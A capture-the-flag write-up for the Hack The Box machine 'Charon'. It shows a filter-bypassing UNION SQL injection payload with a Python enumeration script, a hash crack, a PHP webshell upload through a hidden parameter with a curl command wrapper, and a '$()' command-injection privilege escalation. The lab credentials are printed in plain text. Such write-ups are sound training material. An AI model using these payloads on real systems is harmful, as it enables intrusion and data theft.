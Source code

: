 
# initial enumeration

nmap scan:

![nmap_scan](./img/charon/charon_nmap.png)

| port | service | version | 
|-----|---------|----------|
| 22 | ssh|7.2p2|
| 80 | apache httpd| 2.4.18| 

feroxbuster scan
```
301      GET        9l       28w      307c http://10.129.1.66/js => http://10.129.1.66/js/
200      GET       94l      191w     2546c http://10.129.1.66/
301      GET        9l       28w      311c http://10.129.1.66/images => http://10.129.1.66/images/
301      GET        9l       28w      308c http://10.129.1.66/css => http://10.129.1.66/css/
301      GET        9l       28w      318c http://10.129.1.66/images/mobile => http://10.129.1.66/images/mobile/
301      GET        9l       28w      310c http://10.129.1.66/fonts => http://10.129.1.66/fonts/
301      GET        9l       28w      312c http://10.129.1.66/include => http://10.129.1.66/include/
403      GET       11l       32w      299c http://10.129.1.66/server-status

```
``

![yogurt](./img/charon/charon_yogurt_homepage.png)
home page

![supercms](./img/charon/charon_supercms.png)


looking up the cms on google i found a [repo](https://github.com/rojr/SuperCMS), last updated 4 years ago


well i cant access anything and the webpage seems empty so i'll run a vhost scan
dead end

ran a dirscan again, this time with a .php extension and found a folder called `cmsdata` and a `/menu.php` which redirected me to a login page


# Foothold
after trying to fuzz some creds i checked the forgot password link and there i found the following error


## Sql Injection

![db error](./img/charon/charon_db_error.png)

running sqlmap found a vulnerable mysql database and gave me a database:
`supercms`

sqlmap didn't work other than giving me the db name 

trying a union injection just throws an error: 

![union error](./img/charon/charon_db_union_error.png)

weird
what if it's blocking the word union? or filtering it somehow? 
YUP

changing the union to anything different, like "uNion" bypasses the filter

enumerating how many rows the db has by executing the request multiple times with different numbers resulted in 4 rows, after the query returned an "Incorrect format" error 

![query](./img/charon/charon_union_query.png)

![incorrect](./img/charon/charon_incorrect_format.png)


after trying to see which row is the injectable one, i found that the 4th one is the injectable one.
so time to enumerate the db:
im gonna concat the information schema tables into this row to get the data from it into one row

well since it wants an email, lets add one to our concat statement:
![cols](./img/charon/charon_cols.png)

![error2](./img/charon/charon_error_2.png)

hmm.... an error...
maybe its filtering that as well

yep

![no user](./img/charon/charon_no_email.png)

it says that there isn't a username found with that email, probably because it's probably returning an error, so lets limit the result to see if it helps:
![limit](./img/charon/charon_limit_result.png)
yep

![limit2](./img/charon/charon_limit_2.png)


lets continue enumerating this db

db info:

![info](./img/charon/charon_dbinfo.png)


if i give the limit statement an offset, i could probably get the column names
![](./img/charon/charon_column.png)

yup. i'll write a script to automate this

![rows](./img/charon/charon_row.png)

interesting columns



__enum_db.py__
```python
import requests
import re


i = 0
reg = r"<h2> Email sent to: (.+?) "
query = {"email": f"aaa@aaa.com'uniOn select 1,2,3,CONCAT( COLUMN_NAME,  \" | \",\" | \",  \"@aaa.com\") FROM INFORmATION_SCHEMA.COLUMNS limit 1 offset {i};-- -"}

url = "http://charon.htb/cmsdata/forgot.php"
while i < 1001:
        r = requests.post(url, data=query)
        reg_query = re.search(reg, r.text)
        query = {"email": f"aaa@aaa.com'uniOn select 1,2,3,CONCAT( COLUMN_NAME,  \" | \",\" | \",  \"@aaa.com\") FROM INFORmATION_SCHEMA.COLUMNS limit 1 offset {i};-- -"}
        print(reg_query.group(1) + f" | INDEX: {i}")
        i += 1

```

using the script above and the database tables we found, we can enumerate usernames:

![users](./img/charon/charon_users.png)

managed to leak a hash!
0b0689ba94f94533400f4decd87fa260

using https://md5decrypt.net/en/#answer
 i decrypted the hash and got:
 0b0689ba94f94533400f4decd87fa260 : **tamarro**

i managed to log in with the creds:

**super_cms_adm:tamarro**

![ap](./img/charon/charon_admin_panel.png)

![ep](./img/charon/charon_editpage.png)

we can edit this page??
any webshell addicts in chat? 

well i cant write to the files in any way
however, i can upload files

![upload](./img/charon/charon_upload_image.png)


![blacklist](./img/charon/charon_blacklist.png)

we can only upload .jpg, .gif and .png

looking at the source i see a weird hidden input variable. 
![sparam](./img/charon/charon_secret_param.png)
that decodes to: *testfile1*

uncommenting the input generates a new input form... with the encoded value. 

changing that encoded value to the decoded value and uncommenting it allows me to just upload any image file under any name i want! meaning i can save an image with a php webshell in it and upload it as a webshell! lets try:


![burp](./img/charon/charon_secret_param2.png)

it uploaded to the images folder.. lets try to execute code with it

![shell upload](./img/charon/charon_success_shell.png)

## Command Execution

![url](./img/charon/charon_url_shell.png)
![rce](./img/charon/charon_rce.png)

wrote a very basic automation script to simulate a shell:

```bash
curl http://charon.htb/images/shell.php?cmd=$1 -s --output - 
```

user found: decoder

# User flag

enumerating some stuff i found db creds in the `freeeze` folder:

![db creds](./img/charon/charon_db_creds.png)

**freeeze:fr2424z**

![sqli](./img/charon/charon_sqli.png)

```
1 -word filter
sqli - the vulnerable query
```

 i can read the `pass.crypt` and `decoder.pub` files in decoder's home directory, but not the user file
 ![readable](./img/charon/charon_readable_files.png)
pass.crypt: mTJPrVNiiaHi0Y3QImXNfxVXnWecid0ZVMjFbzeNEUk=

running RsaCtfTool on the decoder.pub and pass.crypt files gives me a password: **nevermindthebollocks**

**decoder:nevermindthebollocks**

using the creds i can ssh as decoder and get the user flag

# Root flag


linpeas showed me that there is a readable binary called `supershell` which doesn't seem to be a default binary.. could this be a privesc vector?
![](./img/charon/charon_readable_file.png)

rafter copying the binary to my local system i opened it in ida and read the main function:
![](./img/charon/charon_ida_main.png)
![](./img/charon/charon_CI_check.png)



it appears that the binary takes our string, checks that there aren't any command injection strings and compares it to `/bin/ls`, then executes it with root privileges by setting it's uid to **0** . notice that the strings its filtering () are missing one string that can be used for command injection; `$()`.
lets try to exploit this


payload: `supershell '/bin/ls $(cat /root/root.txt)'`
![](./img/charon/charon_roottxt.png)
it worked! 


## Closing notes
ty to [decoder](https://app.hackthebox.com/users/1391) , the creator of the box for a fun and interesting box
